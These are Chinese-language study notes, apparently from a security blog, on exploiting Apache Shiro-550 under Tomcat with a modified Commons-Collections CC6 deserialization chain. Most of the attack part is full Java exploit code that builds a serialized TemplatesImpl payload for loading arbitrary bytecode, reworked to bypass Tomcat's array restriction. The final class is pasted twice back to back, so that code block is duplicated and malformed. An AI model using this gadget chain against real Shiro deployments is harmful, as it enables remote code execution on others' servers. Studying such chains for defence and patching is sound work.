

### CC6攻击Tomcat下的Shiro

#### CC6攻击Shiro-550

#### 攻击失败的解析

TODO：目前有较多问题没有解决，先做一个记录：

* Spring下和tomcat下调用的差别，为什么一个有数组问题，一个没有；tomcat采用自己的类加载器的原因
* tomcat下异常抛出点的根本原因
* java安全漫谈中为什么说Shiro不是遇到Tomcat就一定会有数组这个问题

调试时遇到无法进入tomcat类加载器的问题，这里做一个记录，解决方法：

1. 在pom.xml中添加依赖

```xml
<dependency>
      <groupId>org.apache.tomcat.embed</groupId>
      <artifactId>tomcat-embed-core</artifactId>
      <version>9.0.91</version>
</dependency>
```

2. 设置idea的调试器



### 改造CC链

在tomcat下的shiro由于在反序列化时使用继承ObjectInputStream的ClassResolvingObjectInputStream类的resolveClass方法在反序列化过程中查找对象，这限制序列化对象中非Java自身的数组的使用，也就是限制了CC6中使用`Transformer[] transformers = new Transformer[]{......}`，所以我们需要改造CC6，使其不使用Transformers数组。

有一个解决方法是使用JRMP（[Orange: Pwn a CTF Platform with Java JRMP Gadget](https://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html)），但是需要出网，这里不多介绍。

所以我们要思考有没有办法改造链子，让其不要使用Transformer数组，在CC3中，我们也使用了Transformer数组，但是其长度只有2：

```java
Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] { obj })
        };

Transformer transformerChain = new
                ChainedTransformer(transformers);
```

我们再回顾一下，Transformer数组在CC链中是如何发挥的作用，在CC链的**某处**，调用了`ChainedTransformer(transformers).transformer(arg)`，这里实质上开始遍历执行数组transformers的元素的transformer方法。

再总结一下，这里`ChainedTransformer(transformers).transformer(arg)`实际上做了什么，它等效于一行代码。

```java
// instantiateTransformer为数组的第二个元素new InstantiateTransformer(new Class[] { Templates.class }, new Object[] { obj })
instantiateTransformer.transformer(TrAXFilter.class);
```

如果在CC链上，触发`ChainedTransformer(transformers).transformer(arg)`的arg是可控的，我们就不需要Transformer数组和ChainedTransformer了，很幸运，之前介绍的CC6是可控的。

#### CC6的改造

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class ShiroCC61 {
    public static void main(String[] args) throws Exception {
        Object expMap = new ShiroCC61().getObject();
        // ==================
        // ⽣成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();
        // 本地测试触发
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String classFileToBase64(String filepath) throws IOException {
        String classFilePath = filepath;
        String base64String;
        // 读取 class 文件的字节数组
        byte[] classBytes = Files.readAllBytes(Paths.get(classFilePath));

        // 将字节数组转换为 Base64 编码字符串
        base64String= Base64.getEncoder().encodeToString(classBytes);

        return base64String;
    }
    public Object getObject() throws Exception {
        String base64Code = classFileToBase64("C:\\Users\\tlj\\Desktop\\tmp\\java8u66\\CalcExample.class");
        byte[] code =
                Base64.getDecoder().decode(base64Code);
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "CalcExample");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer transformer = new InvokerTransformer("getClass", null, null);


        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, obj);
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");

        outerMap.clear();

        setFieldValue(transformer, "iMethodName", "newTransformer");
        return expMap;
    }
}

```

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class ShiroCC61 {
    public static void main(String[] args) throws Exception {
        Object expMap = new ShiroCC61().getObject();
        // ==================
        // ⽣成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();
        // 本地测试触发
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String classFileToBase64(String filepath) throws IOException {
        String classFilePath = filepath;
        String base64String;
        // 读取 class 文件的字节数组
        byte[] classBytes = Files.readAllBytes(Paths.get(classFilePath));

        // 将字节数组转换为 Base64 编码字符串
        base64String= Base64.getEncoder().encodeToString(classBytes);

        return base64String;
    }
    public Object getObject() throws Exception {
        String base64Code = classFileToBase64("C:\\Users\\tlj\\Desktop\\tmp\\java8u66\\CalcExample.class");
        byte[] code =
                Base64.getDecoder().decode(base64Code);
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "CalcExample");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer transformer = new InstantiateTransformer(
                new Class[] { Templates.class },
                new Object[] { obj });
        Transformer faketransformer = new ConstantTransformer("fakeTransformer");

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, faketransformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, TrAXFilter.class);
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");

        outerMap.clear();

        //setFieldValue(transformer, "iParamTypes", new Class[] { Templates.class });
        //setFieldValue(transformer, "iArgs", new Object[] { obj });
        setFieldValue(outerMap, "factory", transformer);
        return expMap;
    }
}
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class ShiroCC61 {
    public static void main(String[] args) throws Exception {
        Object expMap = new ShiroCC61().getObject();
        // ==================
        // ⽣成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();
        // 本地测试触发
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String classFileToBase64(String filepath) throws IOException {
        String classFilePath = filepath;
        String base64String;
        // 读取 class 文件的字节数组
        byte[] classBytes = Files.readAllBytes(Paths.get(classFilePath));

        // 将字节数组转换为 Base64 编码字符串
        base64String= Base64.getEncoder().encodeToString(classBytes);

        return base64String;
    }
    public Object getObject() throws Exception {
        String base64Code = classFileToBase64("C:\\Users\\tlj\\Desktop\\tmp\\java8u66\\CalcExample.class");
        byte[] code =
                Base64.getDecoder().decode(base64Code);
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "CalcExample");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer transformer = new InstantiateTransformer(
                new Class[] { Templates.class },
                new Object[] { obj });
        Transformer faketransformer = new ConstantTransformer("fakeTransformer");

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, faketransformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, TrAXFilter.class);
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");

        outerMap.clear();

        //setFieldValue(transformer, "iParamTypes", new Class[] { Templates.class });
        //setFieldValue(transformer, "iArgs", new Object[] { obj });
        setFieldValue(outerMap, "factory", transformer);
        return expMap;
    }
}
```

